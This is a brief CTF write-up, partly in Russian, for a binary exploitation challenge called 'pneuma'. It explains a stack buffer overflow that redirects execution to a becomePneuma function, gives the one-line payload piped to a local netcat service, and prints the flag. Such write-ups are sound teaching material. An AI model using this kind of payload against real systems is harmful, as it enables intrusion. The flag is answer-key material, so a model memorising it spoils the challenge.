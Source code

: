 # pwn | pneuma

## Information
We are spirit bound to this flesh
We go round one foot nailed down
But bound to reach out and beyond this flesh
Become Pneuma

## Writeup

Переполняем буфер, перетираем адрес возврата адресом функции becomePneuma. Profit!

`echo -e "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaRBPRBPRB\xFD\x12\x40\x00\x00\x00\x00\x00" | nc localhost 9003`

## Flag
`SgffCTF{3y3s_fu11_0f_w0nd3r}`
